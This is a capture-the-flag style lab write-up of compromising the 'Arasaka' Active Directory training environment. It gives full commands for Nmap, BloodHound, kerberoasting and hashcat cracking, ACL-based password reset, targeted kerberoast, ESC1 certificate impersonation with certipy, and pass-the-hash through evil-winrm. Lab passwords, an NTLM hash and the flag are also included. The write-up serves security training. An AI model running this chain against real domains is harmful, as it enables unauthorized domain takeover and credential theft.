# Lab Report - Arasaka


# Overview 
---
- **Difficulty**: Easy
- **Platform**: Windows - Active Directory
- **Link**: https://www.hacksmarter.org/courses/f618f837-3060-40a3-81cf-31beeaadf37a

## Resolution Summary 
---
Starting from an assumed breach scenario, we found a kerberoastable user (`alt.svc`) that we abused in order to recover its cleartext password. Afterwards, we respectively exploited `GenericAll` and `GenericWrite` on users `Yorinobu` and `Soulkiller.svc` (password reset and targeted kerberoast). After recovering the cleartext password of the `Soulkiller.svc` user, we abused a certificate template vulnerable to ESC1 in order to gain access as the `the_emperor` user, which was a member of the Domain Admins group.

# Walkthrough
---
- To begin with, we start by performing an Nmap scan in order to find available services, as well as their version and other useful information with default NSE scripts: 
```bash
sudo nmap 10.1.219.19 -p- --open -sCV
```
<p align="center">
  
</p>

- Seeing that we did not have any particular shell access (WinRM or RDP), nor that any custom SMB shares were available, we collected bloodhound data in order to see if our current user had any ACLs we could abuse: 
```bash
nxc ldap 10.1.219.19 -u faraday -p 'hacksmarter123' --bloodhound --collection all --dns-server 10.1.219.19
```
<p align="center">
  
</p>

- After launching our BHCE instance and ingesting the data, we did not find any interesting privileges from our user we could exploit.

- However, we found that the `alt.svc` user was kerberoastable. Therefore, we requested its TGS in order to crack it and recover its cleartext password: 
```bash
nxc ldap 10.1.219.19 -u faraday -p 'hacksmarter123' --kerberoasting krb.txt --dns-server 10.1.219.19
```
<p align="center">
  
</p>

- We cracked it and found the cleartext password of the account: 
```bash
hashcat -m 13100 krb.txt ~/Downloads/rockyou.txt
```
<p align="center">
  
</p>

- We confirmed our access by validating the credentials with: 
```bash
nxc smb 10.1.219.19 -u alt.svc -p babygirl1
```
<p align="center">
  
</p>

- After recursively inspecting the Outbound Object Control property starting from the `alt.svc` using in Bloodhound (Explore -> Search tab), we uncovered the following exploitation chain: 
<p align="center">
  
</p>
<p align="center">
  
</p>

- First, we abuse `GenericAll` over the `Yorinobu` user by resetting its password: 
```bash
bloodyad --host 10.1.219.19 -d hacksmarter.local -u alt.svc -p babygirl1 set password Yorinobu 'Password123!'
```
<p align="center">
  
</p>

- Afterwards, we can abuse `GenericWrite` on `Soulkiller.svc` in order to perform a targeted kerberoasting attack (by assigning an SPN to that user, then requesting a TGS and cracking it): 
```bash
nxc ldap 10.1.219.19 -u Yorinobu -p 'Password123!' --kerberoasting soulkiller_krb.txt --dns-server 10.1.219.19 --targeted-kerberoast Soulkiller.svc
```
<p align="center">
  
</p>

- We cracked its TGS and recovered its cleartext password: 
```bash
hashcat -m 13100 soulkiller_krb.txt ~/Downloads/rockyou.txt
```
<p align="center">
  
</p>

- Lastly, having recovered these credentials, we can enumerate certificate templates and see if the one we found earlier is vulnerable to any ESC attack. We discover that it is vulnerable to ESC1 
```bash
certipy find -u 'soulkiller.svc@hacksmarter.local' -p 'MYpassword123#' -dc-ip '10.1.219.19' -enabled -hide-admins -vulnerable
```
<p align="center">
  
</p>

- In short, we can exploit ESC1 to generate a certificate while impersonating any user (for example Administrator), allowing us to authenticate as the said user with the newly generated certificate and collect its TGT and NTLM hash.

- Note: when running the following attack, we noticed that we could not request a TGT for the Administrator user as his password was expired. Therefore, we looked for another privileged user and found that `the_emperor` was a member of the Domain Admins group, making him our prime target for the attack.
<p align="center">
  
</p>
<p align="center">
  
</p>

- First, we can request a certificate as the `the_emperor` user: 
```bash
certipy req \
    -u 'soulkiller.svc@hacksmarter.local' -p 'MYpassword123#' \
    -dc-ip '10.1.219.19' -target 'DC01.hacksmarter.local' \
    -ca 'hacksmarter-DC01-CA' -template 'AI_Takeover' \
    -upn 'the_emperor@hacksmarter.local' -sid 'S-1-5-21-3154413470-3340737026-2748725799-1601'
```
<p align="center">
  
</p>

- After that, we can authenticate using the newly generated certificate and collect the user's TGT and NTLM hash:
```bash
certipy auth -pfx 'the_emperor.pfx' -dc-ip '10.1.219.19'
```
<p align="center">
  
</p>

- Note: We attempted to perform a Pass-The-Ticket attack, but it didn't succeed. This issue likely came from AV being enabled, which in case we used `psexec.py`, it deleted the executable it uploaded, explaining why we failed to gain a session that way. Therefore, we relied on a Pass-The-Hash attack instead.

- We can perform a Pass-The-Hash attack to gain a shell session as `the_emperor` (Domain Admin).
```bash
evil-winrm -i 10.1.219.19 -u the_emperor -H d87640b0d83dc7f90f5f30bd6789b133
cat C:\Users\Administrator\Desktop\root.txt
```
<p align="center">
  
</p>

# Trophy 
---
**Root.txt → `fcf1dd0f08d1068a2f151fd2ec5ecf05`**

# Lessons Learned
---
- If an Anti Virus solution is enabled on the target, attempting to gain shell access via `psexec.py` might fail, as it relies on uploading an executable that may get deleted by the AV, failing to provide us with shell access. 
